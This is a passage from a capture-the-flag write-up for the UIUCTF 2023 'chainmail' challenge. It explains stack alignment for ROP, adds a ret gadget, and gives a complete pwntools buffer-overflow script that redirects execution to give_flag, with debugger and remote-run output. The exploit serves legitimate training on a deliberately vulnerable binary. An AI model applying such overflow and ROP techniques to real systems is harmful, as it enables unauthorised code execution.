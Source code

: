 Then I step forward until the call to fopen, at which point execution seems to get stuck on a movaps instruction in libc. (Brief aside; I'm debugging on a Parrot VM that still uses libc 2.31. This is different from the Ubuntu 22.04 distro used in the Dockerfile, but this challenge is simple enough that using a different library doesn't really matter, but your exact errors may vary by distro!)
```
 → 0x7f61e071f540                  movaps XMMWORD PTR [rsp+0x10], xmm1
```
Basically, this is a fairly well-known issue with the x86-64 architecture when attempting this type of attack. Certain libc functions, including fopen apparently, require that the stack be aligned along a certain 16 bytes, otherwise it will error out. Because of how our exploit, which is basically a very simple form of return oriented programming/ROP, works, it is very possible for your 8-byte address to come halfway through the 16-byte stack alignment and cause these types of errors. Fortuntely, the solution is fairly simple. You just need to add another address between the padding and the give_flag address, which needs to end with a ret and is preferrably quite simple (i.e. just a ret instruction). The program will then jump to the first address, return into the second address, then give the flag. You can essentially chain an unlimited quantity of these types of addresses, known as gadgets, to perform more sophisticated ROP attacks.

Using all of this information, I can then put together a final payload. I simply use the address of main+179 as my padding gadget, since we already determined that that was a ret instruction when setting up debugging.
```
from pwn import *

#Pwning the binary
target = process('./chal')
pid = gdb.attach(target, 'b *main+179\ncontinue')
#Pwning the actual netcat connection
#target = remote('chainmail.chal.uiuc.tf', 1337)

print(target.recvuntil(b'recipient'))
padding = b'a' *72
elf = ELF('chal')

payload = padding + p64(elf.symbols['main']+179) + p64(elf.symbols['give_flag'])

target.sendline(payload)

target.interactive()
```
If we run it locally and look at the debugger, we can see it return back to the main+179 instruction, and then back into give_flag.
```
→   0x40133b <main+179>       ret    
   ↳    0x40133b <main+179>       ret
...
[#0] 0x40133b → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  ni
...
 →   0x40133b <main+179>       ret    
   ↳    0x401216 <give_flag+0>    endbr64
```
And if we run it against the remote connection, it prints the flag!
```
┌─[knittingirl@knittingirl-virtualbox]─[~/CTF/uiuctf23]
└──╼ $python3 chain_game_payload.py 
[+] Opening connection to chainmail.chal.uiuc.tf on port 1337: Done
b'== proof-of-work: disabled ==\nHello, welcome to the chain email generator! Please give the name of a recipient'
[*] '/home/knittingirl/CTF/uiuctf23/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
```